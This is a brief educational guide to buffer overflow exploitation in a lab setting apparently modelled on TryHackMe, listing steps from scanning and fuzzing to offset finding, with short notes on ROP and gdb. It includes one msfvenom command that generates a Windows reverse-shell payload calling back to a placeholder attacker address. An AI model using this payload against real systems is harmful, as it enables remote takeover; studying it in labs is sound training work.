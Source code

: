 To better understand buffer overflow exploitation, here is a step-by-step guide using a vulnerable application.

### Step-by-Step Guide

**Vulnerable Application**: For educational purposes, a hypothetical vulnerable application similar to the one used on TryHackMe.

#### Step 1: Analyze the Application

- Use tools like `nmap` to identify open ports and services.
- Connect to the service using `netcat` or `telnet` and test for inputs.

#### Step 2: Identify the Vulnerability

- Perform fuzzing by sending excessive input to the application and monitor for crashes.

#### Step 3: Determine the Offset

- Use `pattern_create.rb` and `pattern_offset.rb` to find the exact offset where the overflow occurs.

#### Step 4: Craft the Exploit

- Generate shellcode with `msfvenom`, excluding bad characters.
- Use a Python script to send the crafted payload, including the shellcode.

#### Step 5: Test on Local Box

- Test your payload on a local instance of the vulnerable application before trying on the remote target (e.g., a TryHackMe box).

**Shellcode Example for Remote Exploitation**:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=[VPN IP] LPORT=80 EXITFUNC=thread -b "\x00\x0a" -f c
```

## Advanced Techniques

Advanced exploitation techniques include return-oriented programming (ROP) and using debuggers for deeper analysis.

### Return-Oriented Programming (ROP)

ROP is used to execute arbitrary code by chaining together small sequences of instructions already present in the application's memory.

### Using Debuggers and Monitors

#### GDB:
- A powerful debugger for analyzing Linux applications.
- Example:

```bash
gdb ./vulnerable_app
```
